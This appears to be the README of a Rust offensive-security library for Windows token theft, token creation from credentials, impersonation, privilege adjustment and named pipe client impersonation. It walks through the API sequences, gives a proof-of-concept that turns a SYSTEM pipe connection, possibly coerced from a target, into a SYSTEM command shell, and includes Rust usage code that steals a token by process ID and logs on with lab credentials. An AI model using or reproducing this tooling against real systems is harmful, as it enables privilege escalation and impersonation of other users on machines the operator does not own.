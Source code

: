 ## Impersonate

A simple library that allows you to steal/make/impersonate tokens of a process and set/get token privileges.

## How token make/steal/impersonate token works

### Steal Token

The `steal_token()` function attempts to retrieve a duplicated access token associated with a process, given its process ID. If successful, it returns a handle to the duplicated token, otherwise it returns an error indicating the reason for failure.

1. Calls the `OpenProcess` function to retrieve a handle to an existing local process.
2. Calls the `OpenProcessToken` function to retrieve a handle to the access token associated with the process.
3. Calls the `DuplicateTokenEx` function to create a new access token that duplicates the original one.

### Make Token

The `make_token()` function attempts to authenticate a user with a given `domain`, `username`, and `password` by calling the `LogonUserW` function. If successful, it returns a handle to a token that represents the logged-on user, which can be used to impersonate the specified user or create a process that runs in the context of the specified user.

1. Calls the `LogonUserW` to log the user onto the local computer. If the logon is successful, the function returns the token handle.

### Impersonate Token

This `impersonate_token` function allows the calling thread to impersonate the security context of a logged-on user, represented by a token handle. This can be useful for performing actions on behalf of another user, such as accessing files or resources that are only available to that user.

1. Calls the `ImpersonateLoggedOnUser` function which allows the calling thread to temporarily take on the security context of the logged-on user. If the function call is successful, it returns the token handle

### Set Token Privileges

The `set_token_privileges` function takes a privilege name and a boolean value to either enable or disable that privilege in the current process's access token. It first looks up the locally unique identifier (`LUID`) for the specified privilege name using the `LookupPrivilegeValueW` function. Then, it constructs a `TOKEN_PRIVILEGES` structure with the `LUID` and the desired attributes (enabled or disabled). The function then opens the process's access token using the `OpenProcessToken` function and calls the `AdjustTokenPrivileges` function to adjust the privileges in the token.

1. Calls the `LookupPrivilegeValueW` function to look up the locally unique identifier (`LUID`) for the specified privilege name
2. Constructs a `TOKEN_PRIVILEGES` structure with the `LUID`
3. Calls `OpenProcessToken` to opens the process's access token
4. Calls the `AdjustTokenPrivileges` function to adjust the privileges in the token.

### Get Token Privileges (TODO)


### Named Pipe Token Impersonation

Windows operating systems use Pipe Token Impersonation to let a process execute in the security context of a different user. It requires passing security tokens back and forth between processes through a named pipe, which is Windows' method for interprocess communication.

With the security token linked to the client process, the server process can mimic the client process when a client process connects to it over a named pipe. This implies that the server process does not need the same level of permissions as the client process to access resources that are only accessible to the client process, such as files or network resources.


This `impersonate_named_pipe` creates a named pipe with a specified name, waits for a client to connect, reads data from the client through the pipe, impersonates the client by duplicating its security token, and uses the duplicated token to create a new process with elevated privileges. The process it creates with elevated privileges is a new cmd.exe command shell program instance.


1.  `CreateNamedPipeA`: Creates an instance of a named pipe and returns a handle for subsequent pipe operations.
2.  `ConnectNamedPipe`: Enables a named pipe server process to wait for a client process to connect to an instance of a named pipe.
3.  `ImpersonateNamedPipeClient`: Impersonates a named pipe client application.
4.  `OpenThreadToken()`: Opens the access token associated with a thread.
5.  `DuplicateTokenEx`: Creates a new access token that duplicates an existing token.
6.  `CreateProcessWithTokenW`: Creates a new process and its primary thread using the specified token.

Create a named pipe, wait for the client process to connect to an instance of a named pipe. Please note, you MUST have the `SeImpersonatePrivilege` privilege, which is usually enabled as a administrator in a high integrity context.
```
C:\Users\memN0ps\Documents\GitHub\arsenal-rs\token\target\debug\token.exe
```

Run the following as `NT AUTHORITY\SYSTEM` to connect to an instance of the named pipe or coerce a target to connect to you.
```
echo "lol" > \\.\pipe\test
```

You should now see a new SYSTEM shell. (PoC done).

![](poc.png)


## Usage Example

```rust
mod process;
mod token;
use crate::token::{make_token, set_token_privileges, steal_token};
use token::{impersonate_named_pipe, impersonate_token, revert_to_self};
use windows_sys::Win32::System::SystemServices::{
    SE_ASSIGNPRIMARYTOKEN_NAME, SE_DEBUG_NAME, SE_IMPERSONATE_NAME,
};
mod privileges;

fn main() {
    env_logger::init();

    match named_pipe_impersonation() {
        Ok(_) => log::info!("named_pipe_impersonation success!"),
        Err(e) => log::error!("Error: named_pipe_impersonation failed {:?}", e),
    }

    match token_magic_test() {
        Ok(_) => log::info!("token_magic_test success!"),
        Err(e) => log::error!("Error: token_magic_test failed {:?}", e),
    }

    match process_magic_test() {
        Ok(_) => log::info!("process_magic_test success!"),
        Err(e) => log::error!("Error: process_magic_test failed {:?}", e),
    }
}

pub fn token_magic_test() -> Result<(), token::error::Error> {
    set_token_privileges(SE_DEBUG_NAME, true)?;
    set_token_privileges(SE_ASSIGNPRIMARYTOKEN_NAME, true)?;

    let duplicate_token = steal_token(10608)?;
    log::info!("{}", duplicate_token);
    impersonate_token(duplicate_token)?;
    revert_to_self()?;

    let token = make_token("north.sevenkingdoms.local", "robb.stark", "sexywolfy")?;
    log::info!("{}", token);
    impersonate_token(token)?;
    revert_to_self()?;

    Ok(())
}

pub fn process_magic_test() -> Result<(), process::error::Error> {
    let process_id = process::get_process_id_by_name("notepad.exe")?;
    let module_id = process::get_module_address_by_name("kernel32.dll", process_id)?;

    log::info!("process_id: {}", process_id);
    log::info!("Module ID: {:x}", module_id);

    Ok(())
}

pub fn named_pipe_impersonation() -> Result<(), token::error::Error> {
    //set_token_privileges(SE_IMPERSONATE_NAME, true)?;
    impersonate_named_pipe("test")?;
    Ok(())
}
```

## Credits / References

* [C5pider](https://twitter.com/C5pider): https://github.com/HavocFramework/Havoc
* [zblurx](https://twitter.com/_zblurx): https://github.com/zblurx/impersonate-rs (This is similar but does not have named pipe impersonation or make_token functionality. It's also a binary and not a library).
* This project was dedicated to [@_RastaMouse](https://twitter.com/_RastaMouse)
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation
* https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/priv/namedpipe.c